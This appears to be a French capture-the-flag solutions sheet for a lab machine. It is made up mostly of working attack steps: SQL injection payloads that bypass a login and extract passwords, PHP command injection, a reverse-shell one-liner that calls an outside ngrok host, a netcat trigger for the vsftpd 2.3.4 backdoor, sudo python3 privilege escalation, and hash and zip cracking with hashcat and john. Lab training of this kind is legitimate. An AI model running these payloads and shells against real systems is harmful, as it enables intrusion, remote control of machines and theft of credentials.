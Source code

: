 # Injection SQL 1 - Passer le login

mettre " pour avoir une erreur


* Solution :
    Mettre en username : " OR 1=1 OR ""="

Mais on est login en tant que "admin", pas l'autre `docker compose exec -it machine1 bash`
user !

* Indice 1 :
    Injection SQL

* Indice 2 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"

# Injection SQL 2 - Récupérer le mot de passe de l'autre utilisateur

* Indice 1 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"
    (dur sans connaître le nom de la base !)

SELECT * FROM data.users WHERE username = "a" AND password="" UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin"

* Solution :

    Mettre en user : (n'importe quoi)

    Mettre en mdp : " UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin

# RCE PHP - Ping

* Solution :

    ;ls
    ;whoami

reverse shell : https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

nc -l -p 12345 

ngrok tcp 12345

php -r '$sock=fsockopen("2.tcp.ngrok.io",15705);exec("/bin/sh -i <&3 >&3 2>&3");'

upgrade : 
python3 -c 'import pty;pty.spawn("/bin/bash")';

# ftp anonymous

* Solution : ftp 10.1.0.188

    Mettre 'anonymous' en nom

# vstfp:2.3.4 backdoor

* Solution :

    ftp 10.1.0.188

    Connected to 10.1.0.188.
    220 (vsFTPd 2.3.4)
    Name (10.1.0.188:root): ANYTHINGHERE:)
    331 Please specify the password.
    Password:
    ^C
    421 Service not available, remote server has closed connection


    nc -vn 10.1.0.188 6200

    Connection to 10.1.0.188 6200 port \[tcp/*\] succeeded!


    ls ~

    flag.txt


    cat ~/flag.txt


# PrivEsc : Sudo
sudo -l

User www-data may run the following commands on machine1:
    (root) NOPASSWD: /usr/bin/python3

* Solution :
    sudo python3 -c "import os;os.system('whoami')"
    sudo python3 -c "import os;os.system('bash')"

# Hash root
ls ~

pense_bete.txt

cat ~/pense_bete.txt

* Solution :

    hashcat -m0 -O flag /usr/share/wordlists/rockyou.txt

    (hashcat -m0 --show flag)

# Zip Bruteforce:

zip2john flag.zip > hash.txt
john --wordlist=rockyou.txt hash.txt 

password: sweatheart